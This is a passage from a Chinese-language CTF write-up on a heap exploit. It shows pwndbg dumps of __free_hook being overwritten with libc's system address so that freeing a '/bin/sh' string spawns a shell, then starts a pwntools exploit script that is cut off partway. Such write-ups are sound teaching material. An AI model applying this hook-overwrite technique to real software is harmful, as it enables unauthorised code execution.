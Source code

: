 ```
0x5555556051c8:	0x0000000000000000	0x0000000000000000
0x5555556051d8:	0x0000000000000000	0x0000000000000000
pwndbg> x /s 0x00007ffff7b9a58b  //查看
0x7ffff7b9a58b:	"/bin/sh"
pwndbg> x /gx 0x00007ffff7dd37a8
0x7ffff7dd37a8 <__free_hook>:	0x0000000000000000
```

然后将\_\_free_hook指向的内容修改为system函数地址

```
pwndbg> x /10gx 0x555555602040       //global_book_struct_array 
0x555555602040:	0x6161616161616161	0x6161616161616161
0x555555602050:	0x6161616161616161	0x6161616161616161
0x555555602060:	0x0000555555605100	0x0000555555605190
0x555555602070:	0x0000000000000000	0x0000000000000000
0x555555602080:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x0000555555605190    //book2_struct_addr
0x555555605190:	0x0000000000000002	0x00007ffff7b9a58b
0x5555556051a0:	0x00007ffff7dd37a8	0x0000000000021000
0x5555556051b0:	0x0000000000000000	0x0000000000020e51
0x5555556051c0:	0x0000000000000000	0x0000000000000000
0x5555556051d0:	0x0000000000000000	0x0000000000000000
pwndbg> x /10gx 0x00007ffff7dd37a8    //book2_description_ptr，上一步将它变成了__free_hook的地址
0x7ffff7dd37a8 <__free_hook>:	0x00007ffff7a53380	0x0000000000000000
0x7ffff7dd37b8 <next_to_use>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd37c8 <disallow_malloc_check>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd37d8 <atfork_recursive_cntr>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd37e8 <atfork_mem+8>:	0x00007ffff7a8b1a0	0x00007ffff7a8b730
pwndbg> x /gx 0x00007ffff7a53380       //编辑后将__free_hook的地址写入system函数地址
0x7ffff7a53380 <__libc_system>:	0xfa86e90b74ff8548
```

在调用delete_book的时候会调用free函数，其中有一步就是free(*book2_name_ptr),也就是free(/bin/sh);根据__free_hook的调用规则，会把free的参数作为hook函数的参数，__free_hook指针指向的地址作为函数地址，**之前已经把__free_hook指向了system**，于是就会调用system(binsh_addr)，从而getshell

```python
delete_book(target, 2)
```

一开始本地没打通，发现其实还是libc版本的问题，在打不通的情况下，可以尝试多更换libc版本(根据得到的函数地址在网站上查询相关版本，或者使用LibcSearcher)

##### 完整exp

```python
from LibcSearcher import LibcSearcher
from pwn import *

context(os='linux')
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

def create_book(target, name_size, book_name, desc_size, book_desc):
    target.recv()
    target.sendline('1')
    target.sendlineafter('Enter book name size: ', str(name_size))
    target.sendlineafter('Enter book name (Max 32 chars): ', book_name)
    target.sendlineafter('Enter book description size: ', str(desc_size))
    target.sendlineafter('Enter book description: ', book_desc)

def delete_book(target, book_id):
    target.recv()
    target.sendline('2')
    target.sendlineafter('Enter the book id you want to delete: ', str(book_id))

def edit_book(target, book_id, book_desc):
    target.recv()
```